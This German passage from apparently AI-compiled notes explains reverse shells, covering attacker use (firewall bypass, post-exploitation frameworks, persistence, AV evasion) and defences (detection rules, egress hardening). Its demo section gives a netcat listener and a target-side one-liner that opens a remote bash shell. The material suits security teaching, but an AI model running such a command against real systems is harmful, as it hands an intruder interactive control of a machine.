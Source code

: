 ## 2. Relevanz in Offensive und Defensive Security

## 2.1 Angreiferische Nutzung

- **Umgehung von Firewalls & NAT**: Outbound-Sessions passieren meist Port- und Protokollfilter[7](https://lab.wallarm.com/what/was-ist-eine-reverse-shell-beispiel-und-vorbeugung/?lang=de)[8](https://www.linkedin.com/pulse/understanding-bind-shell-reverse-comprehensive-guide-nimnas-ahamed-izx4c).
    
- **Post-Exploitation-Frameworks**: Metasploit, Cobalt Strike, Sliver, Havoc verwenden Reverse-Stager für Meterpreter/Beacon-Sessions[16](https://sysdig.com/learn-cloud-native/what-is-a-reverse-shell/)[17](https://www.threatlocker.com/blog/reverse-shells-vs-bind-shells).
    
- **Persistenz**: WMI-Event-Consumer, Run-Keys oder geplante Tasks laden Payloads wie Nishang `Add-Persistence.ps1`[18](https://www.checkpoint.com/cyber-hub/cyber-security/what-is-cyber-attack/what-is-a-reverse-shell-attack/) bei jedem Boot[19](https://xygeni.io/de/sscs-glossary/what-is-reverse-shell/)[20](https://tdsource.de/it-glossar/reverse-bind-shell/).
    
- **Evasion**: HoaxShell generiert HTTPS-Beacon-Shells, die von vielen AV-Engines erst nach Obfuskation erkannt werden[21](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)[22](https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/).
    

## 2.2 Defensive Bedeutung

- **Incident-Root-Cause**: Reverse Shells markieren oft den Übergang von RCE zu interaktiver Kontrolle[23](https://github.com/shelld3v/Python-shell-cheat-sheet)[24](https://github.com/ivan-sincek/php-reverse-shell).
    
- **Erkennung & Forensik**: Sigma- und Elastic-Regeln klassifizieren ungewöhnliche Bash-TCP-/netcat-Muster, PowerShell-`TcpClient`-Aufrufe oder verdächtige Prozessketten[25](https://www.101labs.net/comptia-security/lab-68-getting-a-reverse-shell-using-socat/)[26](https://highon.coffee/blog/reverse-shell-cheat-sheet/)[27](https://blog.geoda-security.com/2019/03/reverse-shell-in-memory-utilizing.html)[28](https://github.com/sallar-ba/PythonReverseShellBasic).
    
- **Egress-Härtung**: Strikte Outbound-ACLs, Proxy-Auth, DNS-Sinkhole und IDS-Signaturen erschweren Session-Aufbau[29](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)[30](https://elsensohn.ch/en/docs/informationsecurity/ncat/)[9](https://www.aquasec.com/cloud-native-academy/cloud-attacks/reverse-shell-attack/).
    

## 3. Live-Demo: Netcat-Reverse-Shell unter Linux

1. Listener auf Kali: `nc -lvnp 4444`
    
2. Exploit-Einzeiler auf Ziel: `nc 10.0.0.1 4444 -e /bin/bash`
    
3. Kali-Konsole zeigt Banner „Connection received“ – interaktive Bash ist verfügbar.
    

![Setting up a reverse shell listener in Metasploit with LHOST 192.168.110.130 and LPORT 1234 to receive incoming connections](https://pplx-res.cloudinary.com/image/upload/v1752482243/pplx_project_search_images/3c0b88eba73eacdcd2dcaeeb7c35ef6e2b120c85.jpg)

Setting up a reverse shell listener in Metasploit with LHOST 192.168.110.130 and LPORT 1234 to receive incoming connections [stationx](https://www.stationx.net/reverse-shell-cheat-sheet/)

## Stabilisierung (PTY)
